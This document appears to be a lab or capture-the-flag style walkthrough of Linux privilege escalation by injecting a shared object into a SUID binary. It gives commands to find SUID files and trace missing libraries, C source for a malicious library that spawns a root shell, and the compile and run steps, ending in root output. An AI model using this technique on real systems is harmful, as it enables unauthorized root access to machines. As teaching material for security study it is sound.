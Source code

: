 When a program is executed, it will try to load the shared objects it requires.

By using a program called strace , we can track these system calls and determine whether any shared objects were not found.

If we can write to the location the program tries to open, we can create a shared object and spawn a root shell when it is loaded.

1. Find SUID/SGID files on the target:

```
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2> /dev/null
```

==-rwsr-sr-x 1 root staff 9861 May 14 2017 /usr/local/bin/suid-so==

The suid-so file should execute with root user permissions.

2. Run strace on the SUID file:
```
strace /usr/local/bin/suid-so 2>&1 | grep -iE "open|access|no such file"
```

access("/etc/suid-debug", F_OK) = -1 ENOENT (No such file or directory)
==open("/home/user/.config/libcalc.so", O_RDONLY) = -1 ENOENT (No such file or directory)==

The libcalc.so shared object could not be found, and the program is looking in our user’s home directory, which we can write to.

3. Create the /home/user/.config directory.

4. Create the file libcalc.c with the following contents:

==libcalc.c==

---

```
#include <stdio.h>
#include <stdlib.h>

static void inject() __attribute__((constructor));

void inject() {
 setuid(0);
 system("/bin/bash -p");
 # system("cp /bin/bash /tmp/bash && chmod +s /tmp/bash && /tmp/bash -p");
}
```


---

5. Compile libcalc.c into /home/user/.config/libcalc.so:

```
gcc -shared -fPIC -o /home/user/.config/libcalc.so libcalc.c
```

6. Run the SUID executable to get a root shell:

```
/usr/local/bin/suid-so
```

Calculating something, please wait…

```
id
```

uid=0(root) gid=1000(user) egid=50(staff) groups=0(root) ...